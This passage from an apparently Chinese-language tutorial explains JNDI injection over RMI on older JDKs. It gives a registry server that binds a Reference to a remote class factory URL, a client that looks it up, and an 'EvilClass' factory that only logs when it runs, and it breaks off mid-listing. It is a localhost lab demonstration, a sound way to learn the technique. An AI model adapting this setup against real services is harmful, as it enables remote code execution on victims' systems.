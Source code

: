 这里可以看到调用完`Reference`后又调用了`ReferenceWrapper`将前面的`Reference`对象给传进去了，这是为什么呢？  
其实查看`Reference`就可以知道，他并没有实现`Remote`接口也没有继承`UnicastRemoteObject`类，将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有相关的实现，所以需要调用`ReferenceWrapper`给他封装一下。  
## JNDI_RMI  
### 低版本JDK运行  
服务端代码  
```java  
import com.sun.jndi.rmi.registry.ReferenceWrapper;    
    
import javax.naming.Reference;    
import java.rmi.registry.LocateRegistry;    
import java.rmi.registry.Registry;    
    
public class RMIServer {    
    public static void main(String[] args) throws Exception {    
        Registry registry = LocateRegistry.createRegistry(1099);    
        String factoryUrl = &#34;http://localhost:1098/&#34;;    
        Reference ref = new Reference(&#34;test&#34;,&#34;test&#34;,factoryUrl);    
        ReferenceWrapper refWrapper = new ReferenceWrapper(ref);    
        registry.bind(&#34;aa&#34;,refWrapper);    
        System.out.println(&#34;Server ready&#34;);    
    }    
}  
```  
客户端代码  
```java  
package Client;    
    
import javax.naming.InitialContext;    
import javax.naming.NamingException;    
    
public class RMIClient {    
    public static void main(String[] args) throws NamingException {    
        Object ret = new InitialContext().lookup(&#34;rmi://localhost:1099/aa&#34;);    
        System.out.println(&#34;ret:&#34;&#43;ret);    
    }    
}  
```  
恶意类  
```java  
import javax.naming.Context;    
import javax.naming.Name;    
import javax.naming.spi.ObjectFactory;    
import java.util.Hashtable;    
    
public class EvilClass implements ObjectFactory{    
    static void log(String key){    
        System.out.println(&#34;EvilClass:&#34;&#43;key);    
    }    
    {    
        EvilClass.log(&#34;IIB block&#34;);    
    }    
    static{    
        EvilClass.log(&#34;static block&#34;);    
    }    
    public EvilClass(){    
        EvilClass.log(&#34;constructor&#34;);    
    }    
    
    
    @Override    
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable&lt;?, ?&gt; environment) throws Exception {    
```